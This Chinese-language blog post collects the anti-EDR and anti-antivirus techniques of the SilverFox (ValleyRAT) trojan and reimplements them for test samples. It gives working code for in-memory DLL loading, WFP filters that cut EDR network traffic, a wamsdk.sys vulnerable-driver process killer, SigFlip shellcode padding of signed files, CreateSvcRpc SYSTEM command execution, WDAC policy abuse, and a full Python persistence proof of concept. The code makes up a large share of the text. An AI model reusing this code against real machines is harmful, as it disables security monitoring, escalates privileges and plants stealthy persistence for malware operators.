

银狐（SilverFox）木马（又称 ValleyRAT 或 Winos 变种）是针对中国国内政企、财务及医疗系统威胁最高的远控工具之一，其 EDR/杀软对抗技术已演进至内核阶段。

该木马部分变种以 **“驱动利用 + 签名欺骗”** 为核心逻辑，展现出极高的对抗强度：

*   **静态层面**：不仅利用“白加黑”技术劫持合法签名程序，更通过修改已签名驱动的非校验字节（如时间戳）来改变文件哈希。这种手法既能绕过哈希黑名单，又能维持微软数字签名的有效性。
*   **动态对抗**：2025 年的变种大规模采用了 **BYOVD (Bring Your Own Vulnerable Driver)** 战术。通过强制加载存在已知或“未知”漏洞的合法驱动（如 WatchDog、Zemana 或国产反作弊驱动），在 Ring 0 层暴力结束 EDR 进程或摘除内核监控钩子 (Hook)。
*   **隐蔽通信**：核心载荷常通过 LSB 图片隐写或加密内存加载实现“无文件”运行，并结合云存储 (OSS) 流量隧道，使其在端点与网络侧均具备极高的隐蔽性。

本文整理了银狐木马常用的对抗 AV/EDR 手段的代码实现。这些内容基于我对多篇分析报告的研读以及开源社区项目的搜集。为了验证这些技术，我制作了一系列测试样本并发布于卡饭安全论坛。

在本篇博客中，我将分享相关的代码片段和开源库，并演示如何使用 Python 将其整合为 Demo 测试样本。

## 反射式 DLL 注入 (RDI)

虽然大部分对抗技术的原始代码是 C/C++ 编写的，但为了简化集成流程并提高 Demo 开发效率，我选择 **Python** 作为主要语言，并利用 **RDI (Reflective DLL Injection)** 技术来实现静态免杀。

### 静态免杀思路

实现静态免杀的最佳方法之一是让 Payload 或关键 Binary 在内存中解密执行，避免落地。常见的实现路径有：
1.  从网络直接下载至内存 Buffer 并执行。
2.  读取加密的磁盘 Payload，在内存中解密后执行。

### 宿主进程选择

通常情况下，我们需要挑选一个合适的宿主进程。一个完美的宿主进程应具备以下特征：
1.  **拥有有效签名**：系统中最受信任的可执行文件。
2.  **高频使用**：经常出现在用户电脑中，不会引起怀疑。
3.  **行为特征**：日常参与大量文件或网络 I/O 操作。
4.  **执行能力**：最好是解释器或具有执行任意代码的能力。

基于以上标准，Python 的脚本解释器 `python.exe` 是一个完美的选项。银狐木马也采用了类似的 RDI 操作，利用白名单进程进行掩护。

### 代码实现

Python 社区已经提供了现成的库：[PythonMemoryModule](https://github.com/naksyn/PythonMemoryModule)。

导入此库后，即可将任意 DLL/EXE 加载进 `python.exe` 宿主进程的内存中。

> 经过本地测试，C/C++ 编译的 EXE 可以完美运行，但 .NET 程序无法正常工作。
{: .prompt-warning }

```python
import pythonmemorymodule

# data 为读取到的二进制数据（如加密 payload 解密后的 bytes）
pythonmemorymodule.MemoryModule(data=data)
```

## 利用 WFP 断网杀软/EDR

**Windows Filtering Platform (WFP)** 是 Windows Vista 及更高版本引入的一套网络流量过滤架构。它为防火墙、入侵检测系统（IDS）、杀毒软件等安全产品提供了统一的底层 API，用于检查和修改网络数据包。

虽然许多安全产品通过 WFP Callout 驱动来实现网络监控，但恶意软件同样可以利用这一机制，注册恶意的 WFP 过滤器来隐藏自身流量或阻断安全软件的通信。

### 传统方法 vs. WFP

在传统攻防场景中，操控网络流量通常需要内核级访问权限（例如使用 NDIS 驱动或 TDI 过滤）。这种方式门槛较高，攻击者必须面对以下挑战：

*   编写并获取合法的内核驱动签名。
*   绕过驱动签名强制执行（Driver Signature Enforcement）。
*   对抗 PatchGuard (KPP) 等内核保护机制。

相比之下，WFP 的用户态引擎 —— **基础过滤引擎 (BFE, Base Filtering Engine)** —— 允许任何拥有管理员权限的进程通过用户态 API 添加过滤器，而**无需编写或加载内核驱动**。攻击者只需调用 `fwpuclnt.dll` 中的几个函数，即可实现对网络层的控制。

### EDRSilencer 与银狐的实现

开源项目 [EDRSilencer](https://github.com/netero1010/EDRSilencer) 正是基于这一原理诞生的。该工具于 2023 年末发布，旨在针对 EDR/AV 进程设置 WFP 过滤器，从而屏蔽其与云端的通信，使其无法上报威胁信息。银狐木马在 2025 年的变种中也采用了完全相同的手段。

> 为了规避检测，EDRSilencer 的作者自己实现了 `FwpmGetAppIdFromFileName0` 函数，避免了直接调用 `CreateFileW`，从而成功绕过了 Minifilter 的监控。
{: .prompt-info }

以下是基于 EDRSilencer 核心逻辑的代码片段，展示了如何配置 WFP 过滤器以阻断特定进程的流量：

```cpp
// 设置过滤器显示名称（用于 netsh wfp show filters 等管理命令）
filter.displayData.name = filterName;

// PERSISTENT: 持久化过滤器，存储在注册表中，系统重启后依然生效直到显式删除
filter.flags = FWPM_FILTER_FLAG_PERSISTENT;

// ALE_AUTH_CONNECT_V4: 出站连接授权层，TCP connect() / UDP首包 / ICMP首包时触发，有状态，每连接仅评估一次
filter.layerKey = FWPM_LAYER_ALE_AUTH_CONNECT_V4;

// BLOCK: 阻断匹配的网络流量
filter.action.type = FWP_ACTION_BLOCK;

// 权重 = 优先级，UINT64_MAX 确保此过滤器先于 EDR 自身的 PERMIT 规则被评估
UINT64 weightValue = 0xFFFFFFFFFFFFFFFF;
filter.weight.type = FWP_UINT64;
filter.weight.uint64 = &weightValue;

// ALE_APP_ID: 按应用程序路径匹配（NT 设备路径格式，如 \device\harddiskvolume1\...\xxx.exe）
cond.fieldKey = FWPM_CONDITION_ALE_APP_ID;
// 精确匹配
cond.matchType = FWP_MATCH_EQUAL;
// appId 是 FWP_BYTE_BLOB 结构，由 FwpmGetAppIdFromFileName0() 或自定义实现获取
cond.conditionValue.type = FWP_BYTE_BLOB_TYPE;
cond.conditionValue.byteBlob = appId;

// 关联条件到过滤器，多条件为 AND 关系
filter.filterCondition = &cond;
filter.numFilterConditions = 1;

// Provider: 过滤器的逻辑分组/所有者标识，便于管理和批量删除
if (GetProviderGUIDByDescription(providerDescription, &providerGuid)) {
    filter.providerKey = &providerGuid;  // 复用已存在的 Provider
} else {
    provider.displayData.name = providerName;
    provider.displayData.description = providerDescription;
    provider.flags = FWPM_PROVIDER_FLAG_PERSISTENT;  // Provider 也持久化
    result = FwpmProviderAdd0(hEngine, &provider, NULL);
    if (result != ERROR_SUCCESS) {
        printf("[-] FwpmProviderAdd0 failed with error code: 0x%x.\n", result);
    } else {
        if (GetProviderGUIDByDescription(providerDescription, &providerGuid)) {
            filter.providerKey = &providerGuid;
        }
    }
}

// 添加 IPv4 出站阻断过滤器，filterId 用于后续 FwpmFilterDeleteById0 删除
result = FwpmFilterAdd0(hEngine, &filter, NULL, &filterId);
if (result == ERROR_SUCCESS) {
    printf("Added WFP filter for \"%s\" (Filter id: %d, IPv4 layer).\n", fullPath, filterId);
} else {
    printf("[-] Failed to add filter in IPv4 layer with error code: 0x%x.\n", result);
}

// 同时阻断 IPv6，防止 EDR 通过 IPv6 通信
filter.layerKey = FWPM_LAYER_ALE_AUTH_CONNECT_V6;
result = FwpmFilterAdd0(hEngine, &filter, NULL, &filterId);
if (result == ERROR_SUCCESS) {
    printf("Added WFP filter for \"%s\" (Filter id: %d, IPv6 layer).\n", fullPath, filterId);
} else {
    printf("[-] Failed to add filter in IPv6 layer with error code: 0x%x.\n", result);
}
```

## BYOVD

**BYOVD (Bring Your Own Vulnerable Driver)** 是一种利用合法签名但存在漏洞的驱动程序来实现内核级攻击的技术。由于 Windows 驱动程序运行在 Ring 0（内核态），拥有最高的系统权限，攻击者无需自己编写驱动（这通常会被驱动签名强制执行机制拦截），而是直接携带一个已被微软签名的、但存在已知漏洞的合法驱动。加载该驱动后，攻击者便可利用其漏洞实现以下目标：

*   任意内核内存读写
*   关闭或绕过 EDR/AV 的内核回调 (Kernel Callbacks)
*   提权至 SYSTEM 权限
*   隐藏恶意进程或文件

要判断一个 `.sys` 驱动是否存在可利用空间，通常可以检查其 IOCTL 处理程序是否调用了以下内核函数且未做严格的权限校验：

*   `ZwOpenProcess`：获取进程句柄
*   `ZwTerminateProcess`：终止进程
*   `ZwWriteVirtualMemory`：破坏进程内存
*   `ZwAllocateVirtualMemory`：分配内存（通常配合写入使用）
*   `MmCopyVirtualMemory`：拷贝内存（可用于破坏进程内存）

银狐自诞生之初就在不断利用漏洞驱动与杀软/EDR 进行对抗。可以肯定的是，他们拥有独立的研究团队，并持续发掘潜在的 BYOVD 资源。无论是从开源项目还是其他渠道获取，其利用的漏洞驱动数量极高，且相当一部分是未知的，或者尚未被收录在 [LOLDrivers](https://www.loldrivers.io/) 项目中。

### wamsdk.sys

根据 Check Point 在 2025 年 8 月发布的[报告](https://research.checkpoint.com/2025/silver-fox-apt-vulnerable-drivers/)，银狐利用了 **WatchDog Antimalware** 软件中的 `wamsdk.sys` 驱动，通过调用 `ZwTerminateProcess` 来强制结束 EDR/杀软进程。两个月后，安全研究员 j3h4ck 在 GitHub 上开源了此驱动的 POC：[WatchDogKiller](https://github.com/j3h4ck/WatchDogKiller)。截至 10 月份，此漏洞驱动尚未被 LOLDrivers 和微软的漏洞驱动阻止列表（Microsoft Vulnerable Driver Blocklist）收录。

`wamsdk.sys` 暴露了两个具有严重安全缺陷的 IOCTL：

| IOCTL | Code | 功能 |
| :--- | :--- | :--- |
| `IOCTL_REGISTER_PROCESS` | `0x80002010` | 注册进程到授权白名单 |
| `IOCTL_TERMINATE_PROCESS` | `0x80002048` | 终止任意进程 |

**漏洞解析：**

[参考文章](https://medium.com/@jehadbudagga/researching-an-apt-attack-and-weaponizing-it-56daabee11c9) 

1.  `IOCTL_REGISTER_PROCESS` 存在严重逻辑缺陷，任何进程都可以将自己的 PID 注册到白名单中，**且无任何权限校验**。

    

2.  即便 `IOCTL_TERMINATE_PROCESS` 内部有 `ZmnAuthIsRegisteredProcessId` 授权检查，攻击者只需先完成第一步注册，即可轻松绕过。

    

3.  驱动最终以内核权限调用 `ZwTerminateProcess`，这将绕过所有用户态保护机制（包括 PPL 保护进程）。

    

> 至此，该驱动可以在开启了 HVCI (Hypervisor-Protected Code Integrity) 的最新版 Windows 11 机器上成功运行。
{: .prompt-tip }

下面是 POC 的关键代码片段：

```cpp
// ========== Step 1: 注册自己到白名单（绕过授权检查） ==========
DWORD pid = GetCurrentProcessId();
DeviceIoControl(
    hDevice,
    0x80002010,          // IOCTL_REGISTER_PROCESS
    &pid, sizeof(pid),   // 只需传入自己的 PID，无任何校验！
    NULL, 0, &bytesReturned, NULL
);

// ========== Step 2: 杀掉任意目标进程 ==========
typedef struct {
    DWORD ProcessId;     // 目标 PID
    DWORD WaitForExit;   // 是否等待退出
} TERMINATE_REQUEST;

TERMINATE_REQUEST req = { targetPid, 0 };
DeviceIoControl(
    hDevice,
    0x80002048,          // IOCTL_TERMINATE_PROCESS  
    &req, sizeof(req),   // 内核态 ZwTerminateProcess，无视 PPL 保护
    NULL, 0, &bytesReturned, NULL
);
```

## SigFlip

**SigFlip** 利用了 Windows Authenticode 签名机制的一个设计特性：允许在不破坏数字签名有效性的情况下，向已签名的 PE 文件中嵌入任意数据。

这一特性与 `WIN_CERTIFICATE` 结构有关：

```c
typedef struct _WIN_CERTIFICATE {
    DWORD dwLength;           // 证书表大小
    WORD  wRevision;          // 版本
    WORD  wCertificateType;   // 证书类型
    BYTE  bCertificate[];     // 实际证书数据（PKCS#7 SignedData）
} WIN_CERTIFICATE;
```

SigFlip 的核心原理是在 `bCertificate` 字段后面追加数据（Padding）。由于这部分数据不参与哈希计算，因此不会破坏签名的完整性。具体流程如下：

1.  加载 PE 文件并验证现有签名。
2.  定位 `IMAGE_DIRECTORY_ENTRY_SECURITY`（Optional Header 中的安全目录）。
3.  获取证书表的 RVA (Relative Virtual Address) 和 Size。
4.  在证书表末尾追加自定义数据（如 Shellcode 或加密配置）。
5.  更新 `WIN_CERTIFICATE.dwLength` 和目录项的 Size。
6.  重新计算并更新 PE 文件的 Checksum。

银狐利用此工具来绕过基于哈希的检测机制（例如安全厂商通过拉黑易受攻击驱动的文件哈希来防御 BYOVD）。通过制造同一驱动的不同变种（Hash 不同但签名依然有效），银狐将 BYOVD 漏洞驱动的生命周期利用到了极致。此外，这种技术也可用于其他“白利用”场景。

开源工具 [gSigFlip](https://github.com/akkuman/gSigFlip) 提供了现成的 CLI 程序，可用于快速生成改造过的签名 PE 文件：

```powershell
Usage of gSigFlip.exe:
  -out string
        output pe file path (default "out.exe")
  -pe string
        pe file path which you want ot hide data
  -sf string
        the path of the file where shellcode is stored
  -tag string
        the tag you want to use, support "\x1a \xdf" "\x1a\xdf" "1a, df" "1a df" (default "fe ed fa ce fe ed fa ce")
  -xor string
        the xor key you want to use
```

## CreateSvcRpc

**CreateSvcRpc** 是一种通过原始 RPC 协议直接操控 Windows 服务控制管理器 (SCM) 从而以 SYSTEM 权限执行命令的技术。该技术的原始 POC 由安全研究员 **x86matthew** 于 2022 年公开。随后，GitHub 用户 antonioCoco 在其项目 [SspiUacBypass](https://github.com/antonioCoco/SspiUacBypass/blob/main/CreateSvcRpc.cpp) 中提供了基于 x86matthew 代码修改而来的实现。

### 核心原理

其核心逻辑在于**直接进行 RPC 通信**，从而绕过高层 Win32 API。

> 通常，EDR/AV 产品会 Hook `OpenSCManager()` 或 `CreateService()` 等标准 API 来监控服务创建行为。而 CreateSvcRpc 不调用这些 API，而是通过命名管道直接与 SCM 的 RPC 接口通信，手工构造 DCE/RPC 协议数据包。这种方式可以有效避开基于 API Hook 的检测机制。
{: .prompt-info }

### RPC 协议实现细节

该实现主要涉及以下组件：

| 组件 | 说明 |
| :--- | :--- |
| **Bind Request** | 绑定到 `367abb81-9844-35f1-ad32-98f038001003` (SVCCTL v2.0) |
| **NDR 传输语法** | `8a885d04-1ceb-11c9-9fe8-08002b104860` |
| **请求/响应处理** | 手工序列化参数，需严格遵守 4 字节对齐规则 |

#### DCE/RPC Bind 请求数据包布局

整个 RPC Bind 请求包结构如下：

```text
+---------------------------+
|    RpcBaseHeader (16B)    |  ← 所有 RPC 包都有的公共头
+---------------------------+
|  RpcBindRequestHeader     |  ← Bind 特有的参数
+---------------------------+
|    Context Entry          |  ← 要绑定的接口信息
+---------------------------+
```

**RpcBaseHeader (16 字节)**

| 偏移 | 大小 | 字段 | 值 | 说明 |
| :--- | :--- | :--- | :--- | :--- |
| 0x00 | 2 | `wVersion` | `0x0005` | DCE/RPC v5 |
| 0x02 | 1 | `bPacketType` | `0x0B` (11) | Bind 请求 |
| 0x03 | 1 | `bPacketFlags` | `0x03` | `PFC_FIRST_FRAG \| PFC_LAST_FRAG` |
| 0x04 | 4 | `dwDataRepresentation` | `0x00000010` | Little-endian, ASCII, IEEE |
| 0x08 | 2 | `wFragLength` | `72` | 整个包的长度 |
| 0x0A | 2 | `wAuthLength` | `0` | 无认证数据 |
| 0x0C | 4 | `dwCallIndex` | `1` | 调用序号 |

**RpcBindRequestHeader (12 字节)**

| 偏移 | 大小 | 字段 | 值 | 说明 |
| :--- | :--- | :--- | :--- | :--- |
| 0x10 | 2 | `wMaxSendFrag` | `4096` | 最大发送分片 |
| 0x12 | 2 | `wMaxRecvFrag` | `4096` | 最大接收分片 |
| 0x14 | 4 | `dwAssocGroup` | `0` | 关联组 (新连接为0) |
| 0x18 | 1 | `bContextCount` | `1` | 上下文数量 |
| 0x19 | 3 | `bAlign[3]` | `0,0,0` | 对齐填充 |

**Context Entry (44 字节)**

| 偏移 | 大小 | 字段 | 值 | 说明 |
| :--- | :--- | :--- | :--- | :--- |
| 0x1C | 2 | `wContextID` | `0` | 上下文 ID |
| 0x1E | 2 | `wTransItemCount` | `1` | 传输语法数量 |
| 0x20 | 16 | `bInterfaceUUID` | `367abb81...` | SVCCTL 接口 (UUID: `367abb81-9844-35f1-ad32-98f038001003`) |
| 0x30 | 4 | `dwInterfaceVersion` | `0x00000002` | 版本 2.0 |
| 0x34 | 16 | `bTransferSyntaxUUID` | `8a885d04...` | NDR 语法 (UUID: `8a885d04-1ceb-11c9-9fe8-08002b104860`) |
| 0x44 | 4 | `dwTransferSyntaxVersion` | `0x00000002` | NDR v2 |

### 代码实现片段

以下是构造 RPC 请求并创建服务的关键代码逻辑：

```cpp
int InvokeCreateSvcRpcMain(char* pExecCmd)
{
    RpcConnectionStruct RpcConnection;
    BYTE bServiceManagerObject[20];  // SCM 句柄 (RPC 上下文句柄, 固定20字节)
    BYTE bServiceObject[20];         // 服务句柄
    char szServiceName[256];
    char szServiceCommandLine[256];

    // 生成随机服务名，避免冲突
    _snprintf(szServiceName, sizeof(szServiceName) - 1, 
              "CreateSvcRpc_%u", GetTickCount());

    // 关键: 用 "cmd /c start" 包装 payload
    // 这样服务启动后立即返回，不会因超时报错
    _snprintf(szServiceCommandLine, sizeof(szServiceCommandLine) - 1, 
              "cmd /c start %s", pExecCmd);

    //-------------------------------------------------------------------------
    // Step 1: 连接 SVCCTL RPC 接口
    // ntsvcs = SCM 的命名管道
    // 367abb81-9844-35f1-ad32-98f038001003 = SVCCTL 接口 UUID (MS-SCMR 规范)
    //-------------------------------------------------------------------------
    if (RpcConnect("ntsvcs", "367abb81-9844-35f1-ad32-98f038001003", 2, &RpcConnection) != 0)
        return 1;

    //-------------------------------------------------------------------------
    // Step 2: ROpenSCManagerW - 获取 SCM 句柄
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // lpMachineName = NULL
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // lpDatabaseName = NULL  
    RpcAppendRequestData_Dword(&RpcConnection, SC_MANAGER_ALL_ACCESS); // dwDesiredAccess
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_OPEN_SC_MANAGER);       
    
    // 响应前20字节是 SCM 句柄，后4字节是返回值
    memcpy(bServiceManagerObject, &RpcConnection.bProcedureOutputData[0], 20);

    //-------------------------------------------------------------------------
    // Step 3: RCreateServiceW - 创建服务
    // 这里手工序列化了 CreateService 的所有参数
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Binary(&RpcConnection, bServiceManagerObject, 20);  // hSCManager
    RpcAppendRequestData_Dword(&RpcConnection, dwServiceNameLength);         // 服务名长度
    RpcAppendRequestData_Dword(&RpcConnection, 0);                           // (对齐填充)
    RpcAppendRequestData_Dword(&RpcConnection, dwServiceNameLength);
    RpcAppendRequestData_Binary(&RpcConnection, (BYTE*)szServiceName, dwServiceNameLength);
    RpcAppendRequestData_Dword(&RpcConnection, 0);                           // lpDisplayName
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_ALL_ACCESS);          // dwDesiredAccess
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_WIN32_OWN_PROCESS);   // dwServiceType
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_DEMAND_START);        // dwStartType (手动启动)
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_ERROR_IGNORE);        // dwErrorControl
    // ... lpBinaryPathName (我们的 payload 命令行) ...
    RpcAppendRequestData_Binary(&RpcConnection, (BYTE*)szServiceCommandLine, dwServiceCommandLineLength);
    // ... 其他参数 (LoadOrderGroup, Dependencies 等都设为 NULL) ...
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_CREATE_SERVICE);  

    // 响应: [0-3] TagId, [4-23] 服务句柄, [24-27] 返回值
    memcpy(bServiceObject, &RpcConnection.bProcedureOutputData[4], 20);

    //-------------------------------------------------------------------------
    // Step 4: RStartServiceW - 启动服务
    // 服务会以 SYSTEM 身份运行，执行我们的 payload
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Binary(&RpcConnection, bServiceObject, 20);  // hService
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // argc = 0
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // argv = NULL
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_START_SERVICE);         
    
    // 注意: 返回 ERROR_SERVICE_REQUEST_TIMEOUT (1053) 是正常的
    // 因为我们的 "服务" 不是真正的服务程序，不会响应 SCM 的控制请求

    //-------------------------------------------------------------------------
    // Step 5: RDeleteService - 删除服务，清理痕迹
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Binary(&RpcConnection, bServiceObject, 20);
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_DELETE_SERVICE);  

    RpcDisconnect(&RpcConnection);
    return 0;
}
```

根据[火绒安全的报告](https://www.huorong.cn/document/tech/vir_report/1846)，银狐木马正是利用此技术来加载 BYOVD 驱动，从而规避了常规的行为监控。

## WDAC 策略滥用

**WDAC (Windows Defender Application Control)** 是 Windows 10 及更高版本中默认启用的应用控制机制。它旨在控制哪些代码（包括用户态应用程序和内核态驱动程序）被允许在系统上执行。

2024 年底，安全研究员 **Jonathan Beierle** 和 **Logan Goins** 发布了一篇名为 [Weaponizing WDAC - Killing the Dreams of EDR](https://beierle.win/2024-12-20-Weaponizing-WDAC-Killing-the-Dreams-of-EDR/) 的文章，详细描述了如何滥用 WDAC 机制来禁用杀毒软件和 EDR 的运行。

> 这一攻击手法的核心关键点在于：**WDAC 策略在系统启动阶段的加载优先级高于 EDR 驱动程序**。
{: .prompt-danger }

### 攻击流程

1.  **制作恶意 WDAC 策略 (`SiPolicy.p7b`)**
    攻击者可以使用微软官方工具 [App Control Policy Wizard](https://webapp-wdac-wizard.azurewebsites.net) 创建自定义策略：
    *   **阻止**：列入 EDR 相关的 EXE、DLL 及驱动程序。
    *   **允许**：放行特定路径（如 `C:\Users\Public\*`），供攻击者工具运行。

2.  **部署策略文件**
    将生成的 `SiPolicy.p7b` 文件放置于 `C:\Windows\System32\CodeIntegrity\` 目录下（此步需要管理员权限）。

3.  **重启目标机器**
    使策略生效。

4.  **系统启动时的执行顺序**
    *   WDAC 策略率先加载并生效。
    *   EDR 的驱动或服务尝试启动，但因策略限制被阻止加载。
    *   攻击者放置在白名单路径下的恶意工具则可以正常运行，且不受 EDR 监控。

根据腾讯安全的[分析报告](https://www.freebuf.com/articles/vuls/438775.html)，银狐木马在实战中采用了完全相同的对抗手段，通过滥用 WDAC 策略来禁用目标机器上的安全防护软件。

## 文件关联 + DOS 设备重定向 + 延迟移动实现自启动

根据腾讯安全的[分析报告](https://www.freebuf.com/articles/vuls/438775.html)，银狐使用了一个相当隐蔽的持久化技术。其核心思路是利用 Windows 系统启动过程中的几个合法功能组合（File Associations、DOS Devices Redirect、PendingFileRenameOperations），巧妙地绕过常规监控，达到自启动的目的。

为了验证这一机制，我使用 Python 编写了一个快速的概念验证（POC）。

### 流程图



### 具体实现步骤

整个攻击链条设计得非常精巧，主要分为以下几个阶段：

1.  攻击者首先在目标系统上生成一个空文件，文件名固定为 `reboot`，但扩展名是随机生成的四个字母（例如 `reboot.qmtk`）。这个随机扩展名是整个攻击链的关键标识符，系统中不太可能存在对这种扩展名的已有关联。

2.  在注册表 `HKEY_CLASSES_ROOT` 下创建以这个随机扩展名为名的键，将其默认值指向一个自定义的程序标识符 `sf-demo`。随后，为 `sf-demo` 创建完整的 `shell\open\command` 结构，命令内容指向攻击者放置在脚本同目录下的 `python.exe`，并将文件路径作为参数传入。
    > **目的**：确保系统知道遇到这个随机扩展名的文件时，应该使用指定的 Python 解释器打开。

3.  通过向 `Session Manager` 下的 `DOS Devices` 键写入一个新值，将一个未被使用的盘符（如 `X:`）映射到系统的公共开始菜单 `Programs` 目录。
    
    > 这个映射不会立即生效，而是在下次系统启动时由会话管理器（SMSS）处理。
    {: .prompt-info }

4.  攻击者将一对路径写入 `PendingFileRenameOperations` 注册表值。源路径是之前创建的那个带随机扩展名的文件，目标路径则使用刚才映射的虚拟盘符加上 `Startup` 子目录（例如 `X:\Startup\reboot.qmtk`）。
    
    > 这个注册表值专门用于记录需要在重启时执行的文件操作（常用于 Windows 更新或驱动安装）。
    {: .prompt-info }

### 重启后的执行逻辑

当系统重启时，Windows 会话管理器（SMSS.exe）在启动早期阶段开始工作：

1.  首先处理 `DOS Devices` 中的映射关系，使虚拟盘符 `X:` 生效并指向公共启动目录。
2.  紧接着处理 `PendingFileRenameOperations` 中记录的操作，将恶意文件移动到目标位置。由于虚拟盘符此时已经生效，目标路径能够正确解析，文件最终落入公共启动目录的 `Startup` 子文件夹中。
3.  用户登录后，Explorer 进程按照正常流程枚举启动目录中的文件并尝试打开它们。当它遇到 `reboot.qmtk` 时，查询注册表找到对应的文件关联，最终启动 Python 解释器执行恶意代码。

### 隐蔽性

这种多阶段的持久化技术相比传统的注册表 Run 键或计划任务，具有显著的隐蔽性：

*   安全软件通常重点监控 `Run` 键、启动文件夹的直接写入等敏感位置。此方法不直接触碰这些位置，而是通过“延迟移动”间接达成目标。且文件移动发生在系统启动早期，此时大多数安全软件的用户态组件尚未加载。
*   `PendingFileRenameOperations` 和 `DOS Devices` 映射均是 Windows 系统的合法功能。这些操作在日志中看起来像是正常的系统行为（如软件安装或更新），极易被安全分析师忽略。
*   使用随机扩展名避开了基于文件类型的黑名单检测，同时不会污染常见文件关联（如 `.exe`, `.bat`），降低了被用户意外发现的概率。
*   使用公共启动目录（Common Startup）意味着恶意代码会在**所有**用户登录时执行，非常适合横向移动或建立稳固据点。
*   调查人员需要同时理解文件关联、DOS 设备映射和延迟文件操作这三个独立系统的交互关系，才能还原完整的攻击链。单独查看任何一个注册表修改都不具备明显的恶意特征。

### 代码实现

以下是使用 Python 复现该技术的 POC 代码：

```python
import os
import random
import string
import winreg
from pathlib import Path
from ctypes import create_unicode_buffer, windll

def gen_empty_random_ext(dir_path: str | os.PathLike | None = None) -> Path:
    """生成带有随机扩展名的空文件"""
    letters = ''.join(random.choice(string.ascii_lowercase) for _ in range(4))
    base = "reboot"  # 文件名可自定义
    dirp = Path(dir_path) if dir_path else Path.cwd()
    dirp.mkdir(parents=True, exist_ok=True)
    p = dirp / f"{base}.{letters}"
    p.touch(exist_ok=True)
    return p

def reg_map_extension_to_sfdemo(ext: str) -> None:
    """注册文件扩展名关联"""
    if ext.startswith('.'):
        ext = ext[1:]
    if not (len(ext) == 4 and ext.isalpha()):
        raise ValueError("ext must be a 4-letter alphabetic extension")

    key_path = fr".{ext}"
    with winreg.CreateKeyEx(winreg.HKEY_CLASSES_ROOT, key_path, 0, winreg.KEY_SET_VALUE) as k:
        winreg.SetValueEx(k, None, 0, winreg.REG_SZ, "sf-demo")  # (Default) value

def reg_set_sfdemo_open_to_local_python() -> None:
    """设置关联程序的打开命令"""
    script_dir = Path(__file__).resolve().parent
    python_exe = script_dir / "python.exe"
    if not python_exe.exists():
        raise FileNotFoundError(f"'python.exe' not found next to this script: {python_exe}")

    cmd = f'"{python_exe}" "%1"'
    key_path = r"sf-demo\shell\open\command"
    with winreg.CreateKeyEx(winreg.HKEY_CLASSES_ROOT, key_path, 0, winreg.KEY_SET_VALUE) as k:
        winreg.SetValueEx(k, None, 0, winreg.REG_SZ, cmd)

def map_drive_to_common_programs(letter: str) -> None:
    """映射 DOS Device 盘符到公共程序目录"""
    if not letter:
        raise ValueError("letter is required")
    drive = (letter[0].upper() + ":")
    if not ('A' <= drive[0] <= 'Z'):
        raise ValueError("letter must be A–Z")

    # 获取 Common Programs 路径 (e.g., C:\ProgramData\Microsoft\Windows\Start Menu\Programs)
    CSIDL_COMMON_PROGRAMS = 0x0017
    buf = create_unicode_buffer(260)
    hr = windll.shell32.SHGetFolderPathW(0, CSIDL_COMMON_PROGRAMS, 0, 0, buf)
    if hr != 0:
        raise OSError(f"SHGetFolderPathW failed with HRESULT {hr:#x}")
    target_path = buf.value

    key_path = r"SYSTEM\CurrentControlSet\Control\Session Manager\DOS Devices"
    access = winreg.KEY_SET_VALUE | winreg.KEY_WOW64_64KEY
    with winreg.CreateKeyEx(winreg.HKEY_LOCAL_MACHINE, key_path, 0, access) as k:
        winreg.SetValueEx(k, drive, 0, winreg.REG_SZ, "\\??\\" + target_path)

def queue_move_to_startup(p: Path, drive_label: str) -> None:
    """添加 PendingFileRenameOperations 延迟移动操作"""
    if not isinstance(p, Path):
        p = Path(p)
    src_abs = p.resolve(strict=False)
    
    d = (drive_label[0].upper() + ":")
    if not ('A' <= d[0] <= 'Z'):
        raise ValueError("drive_label must start with A–Z")

    # 构造 PendingFileRenameOperations 所需的源路径和目标路径
    # 注意：目标路径使用了我们映射的虚拟盘符
    src = "\\??\\" + str(src_abs)
    dst = "\\??\\" + f"{d}\\Startup\\{p.name}"

    key_path = r"SYSTEM\CurrentControlSet\Control\Session Manager"
    access = winreg.KEY_SET_VALUE | winreg.KEY_QUERY_VALUE | winreg.KEY_WOW64_64KEY
    with winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, key_path, 0, access) as k:
        try:
            existing, vtype = winreg.QueryValueEx(k, "PendingFileRenameOperations")
            if vtype != winreg.REG_MULTI_SZ:
                existing = []
        except FileNotFoundError:
            existing = []

        new_list = list(existing) + [src, dst]
        winreg.SetValueEx(k, "PendingFileRenameOperations", 0, winreg.REG_MULTI_SZ, new_list)
```

## 总结

